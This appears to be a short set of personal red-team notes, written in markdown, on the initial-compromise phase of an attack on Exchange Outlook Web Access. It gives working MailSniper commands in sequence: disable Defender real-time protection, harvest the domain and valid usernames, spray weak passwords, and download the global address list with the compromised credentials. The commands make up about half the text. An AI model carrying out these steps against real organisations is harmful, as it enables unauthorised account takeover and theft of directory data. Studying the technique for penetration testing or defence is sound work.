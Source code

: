 # Initial Compromise Notes

**Password Spraying**
I have a love/hate relationship with password spraying. Anyways, tools like [MailSniper](https://github.com/dafthack/MailSniper) or [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) can help.

Import MailSniper, turn off defenders real-time protection for this.
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Enumerate NetBIOS name of target domain with Invoke-DomainHarvestOWA from MailSniper. I find you can also enumerate this with nmap-ing smb of devices on a domain. Although that's more from doing labs so probably more usefull for ctf's, don't recommend because port scanning is really loud.
```
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

Not talked about yet, but check the websites for possible users or social media, add their names into an arbitrary file like names.txt for us to use a tool like namemash.py that turns this name into possible username permutations. 
```
./namemash.py names.txt > possible.txt
```

Now we can use Invoke-UsernameHarvestOWA to enumerate for possible users using this possible.txt and the NetBIOS we enumerated from before.
```
Invoke-UsernameHarvestOWA -ExchHostname <email subdomain> -Domain <domain> -UserList possible.txt -OutFile valid.txt
```

Now password spray, you can get easy to test passwords from places like [weakpasswords.net](https://weakpasswords.net/)
```
Invoke-PasswordSprayOWA -ExchHostname <email subdomain> -userList valid.txt -Password <password>
```

MailSniper has other functions like downloading the glabal address list
```
Get-GlobalAddressList -ExchHostname <mail subdomain> -UserName <domain\poppedUser -Password <password found> -OutFile gal.txt
```
